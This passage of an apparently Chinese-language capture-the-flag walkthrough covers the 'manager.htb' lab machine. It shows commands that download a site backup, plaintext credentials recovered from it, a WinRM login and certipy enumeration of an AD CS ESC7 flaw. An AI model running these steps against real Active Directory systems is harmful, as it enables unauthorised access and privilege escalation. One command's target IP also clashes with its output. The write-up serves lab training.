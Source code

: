 ```bash
index.html                            1      1
js                                    1      0
service.html                          1      1
web.config                            1      1
website-backup-27-07-23-old.zip       1      1
```

我们从网站上下载该备份文件

```bash
kali@kali[~]$ wget http://10.10.11.236/website-backup-27-07-23-old.zip
```

解压之后，从 `.old-conf.xml` 文件中，找到了`raven`账户的账号密码

```
username: raven
password: R4v3nBe5tD3veloP3r!123
```

使用该账户进一步枚举，发现该账户有WINRM服务的权限

```bash
kali@kali[~]$ netexec winrm 10.10.11.202 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'    
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
```

枚举 `ldap` 发现也有 `ldap` 服务的访问权限
## 04. ESC7提权

由于 `Operator` 和 `raven` 有 ldap 服务的访问权限，使用这两个账户进行 ADCS 域证书漏洞枚举。发现可以使用 `raven` 账户进行 `ESC7` 攻击 

```bash
kali@kali[~]$ certipy-ad find -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

<省略...>
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
```
